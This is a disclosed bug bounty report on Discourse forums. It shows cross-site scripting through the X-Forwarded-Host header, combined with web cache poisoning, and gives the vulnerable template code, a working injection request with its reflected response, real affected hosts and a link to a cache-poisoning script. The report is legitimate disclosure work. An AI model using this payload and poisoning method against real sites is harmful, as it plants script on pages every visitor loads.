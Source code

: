 # Web Cache Deception Attack (XSS)

## Report Details
- **Report ID**: 394016
- **URL**: https://hackerone.com/reports/394016
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-08-13T06:04:57.161Z
- **Disclosed**: 2018-11-18T07:09:41.188Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: discourse

## Vulnerability Information
This XSS does not affect the try.discourse.org, but worked on many other Discourse instances, that i tested. In discussions with the Mozilla team, we came to the conclusion that this is a vulnerability in the Discourse and it needs to be sent through this program.
List of vulnerable hosts:
```
discourse.mozilla.org
forum.learning.mozilla.org
forum.glasswire.com
help.nextcloud.com
meta.discourse.org
```

Description XSS
===
The Web application is vulnerable to XSS through the X-Forwarded-Host header. 

**Vulnerable code**
https://github.com/discourse/discourse/blob/master/app/views/common/_special_font_face.html.erb#L12-L18
```
<% woff2_url = "#{asset_path("fontawesome-webfont.woff2")}?#{font_domain}&v=4.7.0".html_safe %>

<link rel="preload" href="<%=woff2_url%>" as="font" type="font/woff2" crossorigin />
...
    src: url('<%=woff2_url %>') format('woff2'),
```




**HTTP Request**
```http
GET /?xx HTTP/1.1
Host: meta.discourse.org
X-Forwarded-Host: cacheattack'"><script>alert(document.domain)</script>
```

**HTTP Response**
```html
<link rel="preload" 
   href="https://d11a6trkgmumsb.cloudfront.net/assets/fontawesome-webfont-2adefcbc041e7d18fcf2d417879dc5a09997aa64d675b7a3c4b6ce33da13f3fe.woff2?https://cacheattack'">
   <script>alert(document.domain)</script>
   &2&v=4.7.0" as="font" type="font/woff2" crossorigin />
<style>
  @font-face {
    font-family: 'FontAwesome';
    src: url('https://d11a6trkgmumsb.cloudfront.net/assets/fontawesome-webfont-2adefcbc041e7d18fcf2d417879dc5a09997aa64d675b7a3c4b6ce33da13f3fe.woff2?https://cacheattack'">
    <script>alert(document.domain)</script>
    &2&v=4.7.0') format('woff2'),
         url('https://d11a6trkgmumsb.cloudfront.net/assets/fontawesome-webfont-ba0c59deb5450f5cb41b3f93609ee2d0d995415877ddfa223e8a8a7533474f07.woff?https://cacheattack&#39;&quot;&gt;&lt;script&gt;alert(document.domain)&lt;/script&gt;&amp;2&v=4.7.0') format('woff');
  }
</style>
```

Web Cache Deception
===
Also, the application caches the HTTP response for 1 minute, so if you send an HTTP request with XSS payload, it will be cached and will be displayed for all requests when the headers match:
Request Start Line, Accept, Accept-Encoding.

**Steps To Reproduce**
For a simpler demonstration, I wrote a script.
The script takes the necessary headers from the request and poisons the cache.
You just need to open the cached page.

1) Open URL
```
https://blackfan.ru/bugbounty/webcachedeception.php?url=https://meta.discourse.org/?cacheattack&payload=%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E&cache=60
```
2) Open the cached URL that the script displays.

3) Result

{F332797}

## Impact

Attacker can collect the popular combinations of Accep + Accept-Encoding and poison the cache of the web pages every minute.
The impact is like a stored XSS on any page.

## Attachments
- Screenshot_at_10-00-49.png
